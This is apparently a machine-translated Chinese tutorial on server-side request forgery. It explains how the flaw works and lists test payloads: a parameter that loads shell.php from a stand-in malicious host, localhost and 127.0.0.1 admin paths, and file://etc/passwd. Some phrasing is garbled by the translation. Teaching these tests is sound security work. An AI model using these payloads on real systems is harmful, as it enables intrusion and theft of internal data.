



# SSRF——服务器的漏洞 01

> 原文：<https://infosecwriteups.com/ssrf-the-servers-loophole-01-6e7e33fb1d57?source=collection_archive---------5----------------------->

## 成功的网络攻击往往始于“网络边界”。

随着公司的发展，保护网络中成千上万台机器的安全变得越来越困难。通常，攻击者在网络中需要妥协的只是一台面向公众的机器/web 服务器上的一个 bug。

今天，我们将讨论网络边界上的一个常见但严重的漏洞，称为 SSRF。我们将讨论它如何允许攻击者改变公司的网络，以及如何发现这个漏洞。

# 什么是 SSRF？

服务器端请求伪造(SSRF) -是一种漏洞，当攻击者能够代表服务器发送请求时，或者我们可以说 SSRF 是一种漏洞，允许攻击者诱导服务器端应用程序向非预期位置发出请求。

例如:想象一下，有一个公开的网络服务器在一个公司的网络上，比如:public.example.com

public.example.com 的*托管位于/proxy 的代理服务，该服务将获取“URL”边界中指定的网页，并将其显示给用户。例如:当用户访问 URL 时，*

> 【http://public.example.com/proxy?url=google.com 

网络应用程序将显示“google.com”的主页

现在让我们假设 admin.example.com 是一个内部服务器托管一个隐藏的管理面板。

为了确保只有员工可以访问管理面板，设置了访问控制，以便除了内部有效 IP 之外，任何其他人都不能访问该面板。现在，如果一个来自互联网的随机用户试图访问管理 url，并且如果 web 应用程序中没有 SSRF 保护机制，那么应用程序将向该随机用户显示管理面板。

从 web 应用程序隐藏管理面板

通常会被防火墙阻止的未授权请求(如获取网络中的隐藏服务)是不允许的。这是因为在面向公众的 web 服务器和互联网机器之间的网络边界上存在的保护在 public.example.com 和 admin.example.com 之间的可信网络上的机器之间不存在

利用“伪造”来自可信服务器的请求的能力，攻击者现在可以在网络上进行各种恶意活动。根据给予易受攻击的服务器的权限，攻击者可能能够读取敏感文件、进行内部 API 调用和访问内部服务，如隐藏的管理面板。

# SSRF 的类型—

有两种类型的 SSRF 漏洞:正常的 SSRF 和盲目的 SSRF。这两种漏洞背后的机制是相同的。它们都利用同一网络中机器之间的信任。唯一的区别是，在盲 SSRF 中，攻击者不会通过 HTTP 响应或错误消息从服务器收到反馈(就像上面的例子中 admin.example.com 是如何显示的)。尽管这增加了数据泄露和网络探测的难度，但盲 SSRF 对攻击者来说仍然极具价值。稍后我们将对此进行更深入的探讨。

# 为 SSRF 测试—

发现 SSRF 漏洞的最佳方法是手动检查代码，查看是否所有的 url 输入都经过了验证。但是，如果源代码不可用，应该将精力集中在测试最容易出现 SSRF 的 web 应用程序的功能上。SSRF 还有另一个方面:当应用服务器能够与用户不能直接到达的其他后端系统交互时，通常会出现信任关系。这些后端系统通常具有可路由的私有 IP 地址，或者仅限于某些主机。由于它们受到网络拓扑的保护，它们通常缺乏更复杂的控制。这些内部系统通常包含敏感数据或功能。

考虑以下请求:

> 得到[https://example.com/page?page=about.php](https://exmple.com/page?page=about.php)

您可以使用以下有效负载来测试这个请求。

***加载文件的内容:***

> 得到[https://example.com/page?page = https://恶意. com/shell.php](https://example.com/page?page=https://malicious.com/shell.php)

***访问受限页面:***

> 得到[https://example.com/page?page=http://localhost/admin](https://exmple.com/page?page=http://localhost/admin)

**或**

> 得到[https://example.com/page?page=http://127.0.0.1/admin](https://exmple.com/page?page=http://localhost/admin)

使用环回接口访问仅限主机访问的内容。这种机制意味着，如果您有权访问主机，您也有权直接访问 **admin** 页面。

**获取本地文件:**

> 得到[https://example.com/page?page=file://etc/passwd](https://example.com/page?page=file://etc/passwd)

**使用的 HTTP 方法:**

上面所有的有效负载都可以应用于任何类型的 HTTP 请求，也可以注入到 header 和 cookie 值中。

关于 POST 请求的 SSRF 的一个重要注意事项是，SSRF 也可能以一种盲目的方式出现，因为应用程序可能不会立即返回任何内容。相反，注入的数据可用于其他功能，如 PDF 报告、发票或订单处理等。，它可能对雇员或职员可见，但不一定对最终用户或测试人员可见。

在下一篇博客中，我们将通过一些真实世界的例子来讨论寻找和利用 SSRF 漏洞的最佳方法。

感谢阅读。请帮助我使这成为新黑客更好的资源。请随意指出任何错误或让我知道我是否应该补充什么:)

直到那时；

**醒吃骇客重复🔥**

*来自 Infosec 的报道:Infosec 上每天都有很多事情发生，很难跟上。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*